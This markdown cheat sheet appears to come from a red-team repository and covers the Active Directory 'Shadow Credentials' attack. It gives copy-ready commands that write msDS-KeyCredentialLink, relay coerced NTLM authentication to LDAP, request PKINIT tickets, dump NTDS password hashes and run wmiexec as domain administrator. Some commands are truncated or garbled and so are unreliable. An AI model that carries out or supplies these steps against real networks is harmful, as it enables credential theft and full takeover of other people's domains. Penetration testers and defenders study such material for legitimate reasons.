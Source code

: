# Shadow Credentials

## Tools: Whisker https://github.com/eladshamir/Whisker , pyWhisker https://github.com/ShutdownRepo/pywhisker , ShadowSpray https://github.com/Dec0ne/ShadowSpray/

### Add Key Credentials to the attribute msDS-KeyCredentialLink of the target user/computer object and then perform Kerberos authentication as that account using PKINIT to obtain a TGT for that user. When trying to pre-authenticate with PKINIT, the KDC will check that the authenticating user has knowledge of the matching private key, and a TGT will be sent if there is a match.

## WARNING! User objects can't edit their own msDS-KeyCredentialLink attribute while computer objects can. Computer objects can edit their own msDS-KeyCredentialLink attribute but can only add a KeyCredential if none already exists

## Requirements

#### 1) Domain Controller on (at least) Windows Server 2016

#### 2) Domain must have Active Directory Certificate Services and Certificate Authority configured

#### 3) PKINIT Kerberos authentication

#### 4) An account with the delegated rights to write to the msDS-KeyCredentialLink attribute of the target object

## Exploitation

## Windows

#### 1) # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.

    Whisker.exe list /target:computername$

#### 2) # Generates a public-private key pair and adds a new key credential to the target object.

    Whisker.exe add /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1

    Whisker.exe add /target:"TARGET_SAMNAME" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"

## Linux

    python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"

## Scenarios:

### Scenario 1: Shadow Credential relaying

#### 1) Trigger an NTLM authentication from DC01 (PetitPotam)

#### 2) Relay it to DC02 (ntlmrelayx)

#### 3) Edit DC01 's attribute to create a Kerberos PKINIT pre-authentication backdoor (pywhisker)

### Alternatively : 

    impacket-ntlmrelayx -t ldap://DC_IP --shadow-credentials --shadow-target 'dc$'

Trigger a callback via browser with the account having the proper rights as mentioned above by using their credentials

After a few minutes, we receive an HTTP connection from the DC$ computer account along with its NTLM credentials. These credentials are then relayed to the LDAP service on the domain controller and the msDS-KeyCredentialLink attribute of the relayed computer account is updated.

Use the certificate to dump NTDS

    nxc smb DC_IP --pfx-cert FZn7B2sQ.pfx --pfx-pass 05FY014jsNhqqL1IbDhr -u DC$ --ntds --user administrator

### Scenario 2: Workstation Takeover with RBCD

### Only for C2: Add Reverse Port Forward from 8081 to Team Server 81

#### 1) Set up ntlmrelayx to relay authentication from target workstation to DC

    proxychains python3 ntlmrelayx.py -t ldaps://dc1.ez.lab --shadow-credentials --shadow-credentials

#### 2) Execute printer bug to trigger authentication from target workstation

    proxychains python3 printerbug.py ez.lab/matt:Password1\!@ws2.ez.lab ws1@8081/

#### 3) Get a TGT using the newly acquired certificate via PKINIT

    proxychains python3 gettgtpkinit.py ez.lab/ws2\$ ws2.ccache -cert-pfx /opt/impacket/

#### 4) Get a ST (service ticket) for the target account

    proxychains python3 gets4uticket.py kerberos+ccache://ez.lab\\ws2\$:ws2.ccache@dc1.

#### 5) Utilize the ST for future activity

    export KRB5CCNAME=/opt/pkinittools/administrator_ws2.ccache

    proxychains python3 wmiexec.py -k -no-pass ez.lab/administrator@ws2.ez.lab

